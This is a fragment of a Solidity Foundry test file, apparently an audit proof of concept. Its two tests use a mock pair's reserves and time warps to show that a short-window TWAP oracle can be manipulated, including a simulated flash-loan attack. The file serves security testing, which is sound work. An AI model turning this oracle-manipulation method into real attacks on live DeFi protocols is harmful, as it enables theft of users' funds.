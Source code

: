 ```solidity
        // Wait MIN_T seconds to allow first price reading
        vm.warp(block.timestamp + 1200);
    }

    function testPriceManipulationWithShortTWAP() public {
        // Get initial price
        (uint224 initialPrice,) = oracle.getResult(address(pair));

        // Simulate time passing (just over MIN_T)
        vm.warp(block.timestamp + 1201);

        // Simulate a large trade that manipulates the price
        // New state: 1 token0 = 8 token1 (800% price change)
        pair.setReserves(25 * 1e18, 200 * 1e18);

        // Wait MIN_T seconds to allow oracle update
        vm.warp(block.timestamp + 1200);

        // Get manipulated price
        (uint224 manipulatedPrice,) = oracle.getResult(address(pair));

        // Calculate price change percentage
        uint256 priceChangePercent = ((uint256(manipulatedPrice) - uint256(initialPrice)) * 100) / uint256(initialPrice);

        console.log("Initial price:", uint256(initialPrice));
        console.log("Manipulated price:", uint256(manipulatedPrice));
        console.log("Price change percentage:", priceChangePercent, "%");

        // Assert significant manipulation
        assertTrue(priceChangePercent > 50, "Price should be manipulated by more than 50%");
    }

    function testFlashLoanPriceManipulation() public {
        // Get initial price
        (uint224 initialPrice,) = oracle.getResult(address(pair));

        // Simulate a flash loan attack
        pair.setReserves(500 * 1e18, 2000 * 1e18);

        // Wait MIN_T seconds to allow oracle update
        vm.warp(block.timestamp + 1200);

        // Get manipulated price
        (uint224 flashLoanPrice,) = oracle.getResult(address(pair));

        // Return reserves to normal
        pair.setReserves(1000 * 1e18, 1000 * 1e18);

        // Calculate price change percentage
        uint256 priceChangePercent = ((uint256(flashLoanPrice) - uint256(initialPrice)) * 100) / uint256(initialPrice);

        console.log("Initial price:", uint256(initialPrice));
        console.log("Flash loan manipulated price:", uint256(flashLoanPrice));
        console.log("Price change percentage:", priceChangePercent, "%");

        // Assert significant manipulation
        assertTrue(priceChangePercent > 90, "Price should be manipulated by more than 90%");
    }
}

```